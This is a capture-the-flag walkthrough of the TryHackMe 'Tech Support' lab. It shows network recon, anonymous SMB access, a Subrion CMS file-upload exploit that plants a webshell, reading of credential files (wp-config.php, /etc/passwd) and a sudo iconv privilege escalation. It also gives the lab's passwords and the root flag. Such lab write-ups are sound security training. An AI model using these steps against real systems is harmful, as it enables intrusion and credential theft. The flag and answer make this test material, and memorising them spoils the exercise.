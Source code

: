 # Tech Support Walkthrough
### Link
- https://tryhackme.com/room/techsupp0rt1
---
### Recon

```
nmap -sC -sV [IP]
```
**Namp scan result**
```
Nmap scan report for 10.10.36.71
Host is up (0.38s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-11-02T08:25:04+05:30
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-11-02T02:55:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.57 seconds
```

Many interesting findings: 
```
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
```
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```
---
### Test samba connection

```
smbclient -L //[IP]
```
Use **anonymous** as password

```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Now, we can try to connect with **websvr**
```
smbclient -N //10.10.224.168/websvr
Try "help" to get a list of possible commands.
smb: \>
```

Now we can check the content
```
smb: \> ls
  .                                   D        0  Sat May 29 16:17:38 2021
  ..                                  D        0  Sat May 29 16:03:47 2021
  enter.txt                           N      273  Sat May 29 16:17:38 2021

		8460484 blocks of size 1024. 5673640 blocks available
```
Let's download this file **enter.txt**
```
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```
---
### enter.txt file 
```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```
We have the encrypted admin password ^^

---
### Admin password

We can use [CyberChef](https://gchq.github.io/CyberChef) and we found this password : **Scam2021**

---
### Portal

From the **enter.txt**, we also know the path to the site : **/subrion/panel** so let's go here and use **admin:Scam2021** to log in.

---
### Exploit

The key information is the framework version : **Subrion CMS 4.2.1**

Now we can try to find an exploit here : [exploitdb](https://www.exploit-db.com/exploits/49876)

Download it and let's try !!!!

```
python3 49876.py -u http://10.10.152.255/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.152.255/subrion/panel/
[+] Success!
[+] Got CSRF token: PpJn8yt23KjBNpCMkbm3PzakXPJoaNVNAfhU181K
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: vdntvkgkvjqqart

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.152.255/subrion/panel/uploads/vdntvkgkvjqqart.phar 

$ ls
vdntvkgkvjqqart.phar

```
---
### Privilege escalation

I found a password in the wp-config.php

```
cat /var/www/html/wordpress/wp-config.php
....
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

```
We have a password. We need to find the user attached to this password and for that, we can check **/etc/passwd**
```
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
```

Let's connect to the server through SSH
```
ssh scamsite@10.10.152.255
The authenticity of host '10.10.152.255 (10.10.152.255)' can't be established.
ED25519 key fingerprint is SHA256:J/HR9GKX4ReRvs4I9fnMwmJrOTL5B3skZ4owxwxWoyM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.152.255' (ED25519) to the list of known hosts.
scamsite@10.10.152.255's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$ 

```

Now, we can use the command **sudo -l** to check what **scamsite** can run
```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
```
(ALL) NOPASSWD: /usr/bin/iconv
```

Let's go to [Gtfobins](https://gtfobins.github.io/gtfobins/iconv/#sudo) and execute the pattern
```
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b 
```

**Question**
#### What is the root.txt flag?
**Answer** 
#### 851b8233a8c09400ec30651bd1529bf1ed02790b

